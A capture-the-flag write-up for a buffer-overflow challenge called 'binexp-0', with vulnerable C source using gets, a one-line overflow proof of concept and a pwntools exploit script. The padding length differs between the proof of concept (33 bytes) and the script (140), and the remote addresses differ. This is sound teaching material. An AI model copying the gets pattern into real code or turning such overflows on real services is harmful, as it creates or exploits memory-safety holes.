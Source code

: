 # Binexp-0

> **Description:** River Flows In You~
>
> **Remote Instance:** nc 54.255.236.13 9000

### Basic File Checks

Perform basic file checks to know how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-0 
binexp-0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=b177222eda27e1540b74b4416c146500a146ae66, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

### Static Code Analysis

By looking at the source code, the `gets` function does not limit the input size, which is bound to exceed the buffer limit in a Buffer Overflow attack.

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	int win;
	char buf[32];
	char flag[100];

	win = 0;

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);
	gets(buf);

	if(win != 0) {
		printf("%s\n", flag);
	} else {
		puts("You failed!\n");
	}
}
```

### Proof of Concept

We can overwrite the `win` variable by inputting a series of characters that exceed the size of the buffer.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ python -c "print('A' * 32 + 'B')" | ./binexp-0
BAT22{f4k3_fl4g_f0r_t3st1ng}     
```

### Solution

Using pwntools to automate the process:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-0')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.190.215', 9000)

def exploit():

    padding = b'A'*140

    payload = padding

    p.sendline(payload)

    p.interactive()

def main():
	exploit()

if __name__ == "__main__":
	main()
```

